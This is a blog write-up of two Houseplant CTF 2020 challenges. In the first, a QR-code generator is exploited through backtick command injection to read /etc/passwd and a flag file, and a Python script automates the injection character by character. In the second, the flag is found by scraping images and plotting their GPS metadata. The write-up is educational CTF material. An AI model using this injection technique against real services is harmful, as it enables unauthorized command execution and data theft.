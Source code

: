 ```yaml
---
layout: post
title: 'Houseplant CTF 2020'
date: '2020-04-26T00:00:00.000-00:00'
author: Keramas
tags: [ctf]
---
```


The Houseplant CTF was pretty chill with a cool collection of fun challenges. While I will not be doing a full writeup on each of the challenges present during the competition, I wanted to highlight a couple of them which I thought were quite creative and very fun to solve. 

<img src = "/assets/images/houseplant/houseplant_logo.png">

## Challenge: QR Code Generator
### Category: Web

<img src = "/assets/images/houseplant/qr_challenge.png">

I'll start by saying that I have no clue if there was an easier way to solve this challenge, but I had fun doing it the way I solved it. 

We're presented with an application that generates QR codes based on the input supplied; however, it seems that when decoding the QR code it only reveals the first character of our input.

<img src = "/assets/images/houseplant/qr_challenge_homepage.png">

<img src = "/assets/images/houseplant/qr_challenge_test1.png">

The clue about the backticks immediatley suggested that there was a possibility of command injection by supplying it in between backticks, so let's perform a couple of tests:

- Read the /etc/passwd file, which should reveal an 'r' if it is indeed executing.

<img src = "/assets/images/houseplant/qr_challenge_passwdTest.png">

This results in an 'r' when decoded.

- Read the /etc/hosts file, which should reveal a '1'.

<img src = "/assets/images/houseplant/qr_code_hoststests.png">

This results in an '1' when decoded. 

Since this is a CTF, we can guess that there is a `flag.txt` in the current working directory, and this results in an 'r' which should be the beginning of our `rctp{}` formatted flag. So now that we have confirmed that there is a flag.txt present (more or less), we can still only read the first character for any output... But, luckily we can be a bit clever and use `cut` to read a single character in any position withint the content of the file. 

During the competition I also tried to exfil the data out by using Collaborator and nslookups, but that appeared to not work.

```bash
cat flag.txt|cut -c1
```
After confirming this, we can make a short Python script which will iterate through each character in the file, decode the QR code with the pyzbar library, and print the decoded message to the console.

```python
import requests
import sys
from pyzbar.pyzbar import decode
from PIL import Image

def download_qr(iteration):

    url = f"""http://challs.houseplant.riceteacatpanda.wtf:30004/qr?text=`cat+flag.txt|cut+-c{iteration}`"""
    r = requests.get(url,stream=True)
    file = open(f'{iteration}.png', 'wb') 
    file.write(r.content)
    file.close()


def main():

    flag = ""
    for i in range(1,35):
        download_qr(i)
        decoded = decode(Image.open(f'{i}.png'))
        data = decoded[0].data.decode("utf-8")
        sys.stdout.write(data)
        sys.stdout.flush()
    print("\n")

if __name__ == '__main__':
    main()


```

This results in our flag:

<img src = "/assets/images/houseplant/qr_flag.gif">



## Challenge: Catography  
### Category: OSINT

<img src = "/assets/images/houseplant/catography_challenge.png">

There is not much direction on what we should be looking for in this challenge; however, we do have a bunch of images--A lot of images (411 to be exact.), and other than that, there was not too much additional information that could be gleened from the server. 

<img src = "/assets/images/houseplant/catography_homepage.png">

So the first step is going to be collecting all of these images and exploring their metadata, and parsing through them a bit better for information that could be useful. While the page does not have any kind of indexing on the frontend, which causes the page to just scroll and scroll without any anchor, as well as means to load all the images at once, proxying the traffic through Burp will reveal that there is an API that is accessible. 

<img src = "/assets/images/houseplant/catography_burp_api.png">

Raw request:
```
GET /api?page=1 HTTP/1.1
Host: challs.houseplant.riceteacatpanda.wtf:30002
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challs.houseplant.riceteacatpanda.wtf:30002/
Connection: close
Cookie: connect.sid=s%3AuGs3_2ZEw4k2l-pTDIJWukodKfUno9gV.3dVpqyebN6R8G6lEYzE6zmUOGvKVEx%2BxWI6ypSWNfHU
```

Raw response:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 868
ETag: W/"364-H6Y9yd2aQ577rhdXWrT/ZvVALgU"
Date: Sat, 25 Apr 2020 04:03:13 GMT
Connection: close

{"has_more":true,"data":[{"author":"Gretchen Auer","link":"https://unsplash.com/photos/LniCHRac5SE","authorLink":"https://unsplash.com/@gretchen10019","id":"002c1282-11e2-4d01-bfff-348ab6f0301c"},{"author":"Cassidy James Blaede","link":"https://unsplash.com/photos/TA22tc6YyMw","authorLink":"https://unsplash.com/@cassidyjames","id":"002c3599-572f-4d23-8fd2-3eb8b3073ab5"},{"author":"Ramiz Dedaković","link":"https://unsplash.com/photos/9SWHIgu8A8k","authorLink":"https://unsplash.com/@ramche","id":"00a1a955-400a-4f7d-b210-bf03ff0e85ae"},{"author":"Pablo Martinez","link":"https://unsplash.com/photos/SrcwPPb0Yh4","authorLink":"https://unsplash.com/@pablomp","id":"015669ee-a3b1-473f-ba8e-bad8eaf76274"},{"author":"Cédric VT","link":"https://unsplash.com/photos/IuJc2qh2TcA","authorLink":"https://unsplash.com/@ced_vt","id":"01659835-09af-4c23-884a-2230141463d4"}]}
```

This API will list JSON data about each image. 

Right-clicking on an image to save the image address reveals that we need the ID of each image to make a direct call to it for downloading. As an example:
`http://challs.houseplant.riceteacatpanda.wtf:30002/images/002c1282-11e2-4d01-bfff-348ab6f0301c.jpg`

Since our API response lists the ID for each image, we can make a loop to iterate through each page number to collect all of the IDs, and then build out a wget command to download all of these images for further processing.

We can pipe curl output to the `jq` program to parse through our JSON responses to extract only the IDs.

```bash
root@Exia:~/Documents/ctfs# curl http://challs.houseplant.riceteacatpanda.wtf:30002/api?page=1 -s | jq '.data[].id'
"002c1282-11e2-4d01-bfff-348ab6f0301c"
"002c3599-572f-4d23-8fd2-3eb8b3073ab5"
"00a1a955-400a-4f7d-b210-bf03ff0e85ae"
"015669ee-a3b1-473f-ba8e-bad8eaf76274"
"01659835-09af-4c23-884a-2230141463d4"
```

To quickly determine when to end our loop, Burp Intruder can be used to determine the max amount of pages, which can be validated by empty responses.

<img src = "/assets/images/houseplant/catography_intruder.png">

We'll then make a loop to grab all of the IDs and output them to a file.

```bash
for i in $(seq 1 84); do curl http://challs.houseplant.riceteacatpanda.wtf:30002/api?page=\${i} -s | jq '.data[].id' >> guids.txt; done
```

With a list of IDs, we can clean it up with `sed` and make it into a full URL so we can make a loop to download all the images.
```bash
sed -i 's/"//g' guids.txt 
sed -i 's/$/\.jpg/g' guids.txt
sed -i 's/^/http:\/\/challs\.houseplant\.riceteacatpanda\.wtf:30002\/images\//g' guids.txt
```

Finally, we grab them all with a while loop by feeding it our ID file.

```bash
while IFS= read -r line; do wget $line; done < guids.txt
```

After looking at a couple of images, each picture had unique GPS data, and nothing else was really important or found. Looking at a couple of the GPS locations in Google Maps, nothing was present or interesting, but then when considering the amount of data that was present--perhaps there could be a message if all of the locations are plotted out?

With this idea in mind, let's extract the GPS data for all the images and import it into Google Maps.

First, we need to convert the format of the GPS data so it matches what is required for Google Maps, and we can do that with `exiftool -c "%.6f"`. We'll pipe that into grep and then just extract the GPS positional data to dump into a CSV file.

```bash
exiftool -c "%.6f" * | grep 'GPS Position' | cut -d":" -f2 > coords.csv
```

Checking the file everything looks good.

```
root@Exia:~/Documents/ctfs/images# head coords.csv
 27.839076 S, 169.537513 W
 29.993002 S, 169.713326 W
 31.653381 S, 169.889138 W
 33.578015 S, 169.801232 W
 35.817813 S, 169.713326 W
 37.439974 S, 169.449607 W
 30.600094 S, 167.691482 W
 28.071980 S, 165.845450 W
 27.215556 S, 163.999419 W
 27.215556 S, 161.977575 W
```

Uploading this CSV file to Google Maps reveals a (somewhat hard to read) flag spelled out in GPS plot points.

<img src = "/assets/images/houseplant/catography_flag.png">











